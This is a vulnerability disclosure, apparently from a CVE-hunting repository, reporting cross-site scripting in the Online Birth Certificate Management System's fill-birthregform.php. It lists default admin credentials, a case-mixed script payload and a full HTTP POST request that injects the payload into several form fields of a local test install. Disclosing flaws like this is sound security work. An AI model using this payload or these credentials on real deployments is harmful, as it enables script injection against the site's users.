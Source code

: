 # Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument fill-birthregform.php  leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/user/fill-birthregform.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/user/fill-birthregform.php  has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$ApplicationID` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/8.png)

## Payload

```sql
POST http://127.0.0.1/CVE/OBCMS/user/fill-birthregform.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 362
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/CVE/OBCMS/user/fill-birthregform.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4okk1vi8496nglrc7ut709vl37
Connection: close

dob=2022-09-10&gender=Female&fname=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&pob=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&nameoffather=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&padd=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&postaladd=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&mobnumber=1&email=1%09+%3CsCrIpT%3Ealert%281%29%3C%2FsCrIpT%3E&submit=
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/1.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-28/2.png)